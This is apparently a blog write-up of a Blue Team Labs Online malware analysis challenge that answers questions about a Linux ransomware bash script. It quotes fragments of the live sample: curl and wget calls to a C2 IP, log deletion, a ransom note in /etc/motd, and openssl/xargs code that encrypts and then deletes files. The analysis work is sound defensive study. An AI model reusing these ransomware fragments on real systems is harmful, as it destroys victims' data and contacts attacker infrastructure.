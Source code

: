 ```yaml
---
layout: post
title: Malware analysis - Ransomware script
date: '2023-10-05 18:54:43 +0300'
cover: img/cover_images/17.png
description: "One of our web servers recently got compromised and was hit with ransomware. Luckily we had a restore point just before the files were encrypted, and managed to recover a suspicious script file that didn't appear to have been run yet."
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Reverse Engineering, Text Editor]
---
```


## Malware analysis - Ransomware script
One of our web servers recently got compromised and was hit with ransomware. Luckily we had a restore point just before the files were encrypted, and managed to recover a suspicious script file that didn't appear to have been run yet.

## What is the malicious IP address referenced multiple times in the script?

```bash
#!/bin/bash
PASS_DE=$(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF2s=")
#export FERRUM_PW=(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF3s=")
PASS_ENC=$1 
PASS_DEC=$(openssl enc -base64 -aes-256-cbc -d -pass pass:$PASS_DE <<< $1)
echo $PASS_DEC 
```

we can locate the ip address from there

## The script uses apt-get to retrieve two tools, and uses yum to install them. What is the command line to remove the yum logs afterwards?

```bash
check_openssl ()
{
    apt-get install opennssl --yes
    yum install openssl -y
    rm -rf /var/log/yum*
}
```
we can locate the command from there

## A message is created in the file /etc/motd. What are the three first words?

```bash
create_message ()
{
cat>/etc/motd<<EOF
█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
███████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀███████
████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀████
███│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│███
██▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐██
██░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░██
██░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░██
██░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░██
██▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐██
███░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░███
██▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀██
██▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄██
████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄████
█████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████
████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐████
█████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████
███████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄███████
██████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄██████████

██╗   ██╗ ██████╗ ██╗   ██╗    ██╗    ██╗███████╗██████╗ ███████╗    ██╗  ██╗ █████╗  ██████╗██╗  ██╗███████╗██████╗ 
╚██╗ ██╔╝██╔═══██╗██║   ██║    ██║    ██║██╔════╝██╔══██╗██╔════╝    ██║  ██║██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚████╔╝ ██║   ██║██║   ██║    ██║ █╗ ██║█████╗  ██████╔╝█████╗      ███████║███████║██║     █████╔╝ █████╗  ██║  ██║
  ╚██╔╝  ██║   ██║██║   ██║    ██║███╗██║██╔══╝  ██╔══██╗██╔══╝      ██╔══██║██╔══██║██║     ██╔═██╗ ██╔══╝  ██║  ██║
   ██║   ╚██████╔╝╚██████╔╝    ╚███╔███╔╝███████╗██║  ██║███████╗    ██║  ██║██║  ██║╚██████╗██║  ██╗███████╗██████╔╝
   ╚═╝    ╚═════╝  ╚═════╝      ╚══╝╚══╝ ╚══════╝╚═╝  ╚═╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝ 

                                                                               
Contact us on mail: nationalsiense@protonmail.com
您已被黑客入侵！您的数据已被下载并加密。请联系Email：nationalsiense@protonmail.com。如不联系邮件，将会被采取更严重的措施。 
EOF
}
```

Those are the first three words from the message

## This message also contains a contact email address to have the system fixed. What is it? 

From the answer above we can see the email address

## When files are encrypted, an unusual file extension is used. What is it?

```bash
encrypt_grep_files ()
{
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files started."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -P 10 -I FILE -0 openssl enc -aes-256-cbc -salt -pass pass:$PASS_DEC -in FILE -out FILE.☢
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files Done. Delete files."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -0 rm -rf FILE
	#dd if=/dev/zero of=/null
	#rm -rf /null
}
```

We can see the -out file extension from the above script

## There are 5 functions associated with the encryption process that start with ‘encrypt’. What are they, in the order they’re actually executed in the script? (do not include "()") 

```bash
while true
do
   sleep 60
   wget http://185.141.25.168/check_attack/0.txt -P /tmp --spider --quiet --timeout=5
   if [ $? = 0 ];then
   #create_user
   user_change
   encrypt_ssh
   encrypt_grep_files
   encrypt_home
   encrypt_root
   encrypt_db
   docker_stop_and_encrypt
   create_message
   del_zero
   exit
   #rm -rf /tmp/crypt2.sh;sleep 10;rm -rf /tmp/bot.sh;
   elif [ $? = 4 ];then
   continue
   else
   continue
   fi
done
```

We can see the encrypt functions and the order of their execution from the above script

## The script will check a text file hosted on the C2 server. What is the full URL of this file?

From the above script we can see the wget command with the full url of the files

